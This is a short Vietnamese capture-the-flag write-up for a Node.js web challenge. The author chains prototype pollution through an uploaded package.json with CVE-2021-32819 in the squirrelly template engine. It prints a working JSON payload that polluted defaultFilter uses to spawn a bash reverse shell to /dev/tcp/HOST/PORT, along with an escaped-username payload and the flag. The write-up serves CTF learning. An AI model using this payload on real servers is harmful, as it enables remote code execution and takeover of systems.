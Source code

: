 ```js
            return res.sendFile(__dirname+'/static/error.html')
        }
```
Ở đây chỉ có chức năng tải lên 1 file `.json` sau đó được copy vào tệp `package.json` và cuối cùng được load bằng `var config = require('config-handler')();`.

Đầu tiên thì thấy được `config-handler` có thể tấn công `Prototype_Pollution`.

Ngồi đọc code một hồi thì không thấy có gì lạ và exploit chỗ nào. Bỗng dưng thấy thư viện `squirrelly` này khá lạ và bắt đầu tìm hiểu về nó và thấy được có một CVE gần đây và cùng version và server đang sử dụng.
[CVE-2021-32819](https://blog.diefunction.io/vulnerabilities/ghsl-2021-023)
Để hiểu hơn thì bạn có thể đọc bài phân tích về CVE đó nhá.

Ở đây mình lấy luôn payload của họ và sửa lại và thêm prototype pollution để exploit.

### Payload
payload genpin -> `super\u0075ser","name":"admin`

file upload reverse shell
```json
{"dependencies":{"__proto__":{"defaultFilter": "e'));var require=global.require || global.process.mainModule.constructor._load; require('child_process').exec('/bin/bash -c \"/bin/bash -i >& /dev/tcp/HOST/PORT 0>&1\"');//"}}}
```
Nhớ thay HOST và PORT của các bạn nhé.

Flag -> `inctf{Pr0707yp3_P011u710n5_4r3_D34dly}`